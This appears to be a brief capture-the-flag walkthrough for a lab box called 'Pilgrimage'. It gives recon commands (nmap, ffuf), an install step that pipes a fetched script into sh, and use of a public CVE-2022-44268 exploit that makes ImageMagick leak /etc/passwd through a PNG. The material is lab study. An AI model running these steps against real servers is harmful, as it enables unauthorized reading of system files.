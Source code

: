 ```yaml
---
cover: ../../../.gitbook/assets/Pilgrimage.png
coverY: 254.84799999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Pilgrimage

Sources

* https://github.com/voidz0r/CVE-2022-44268
* https://doc.rust-lang.org/cargo/getting-started/installation.html

```bash
echo '10.129.148.164 pilgrimage.htb' | sudo tee -a /etc/hosts
nmap pilgrimage.htb
ffuf -u http://pilgrimage.htb/FUZZ -w /usr/share/wordlists/rockyou.txt:FUZZ --recursion -r -fs 7621
curl -o magick http://pilgrimage.htb/magick
chmod +x magick

curl https://sh.rustup.rs -sSf | sh
source "$HOME/.cargo/env"

git clone https://github.com/voidz0r/CVE-2022-44268
cd CVE-2022-44268
cargo run "/etc/passwd"

identify -verbose image.png
../magick convert image.png -resize 50% output.png
identify -verbose output.png
python3 -c 'print(bytes.fromhex("23202f6574632f686f73747...e740a"))'
```
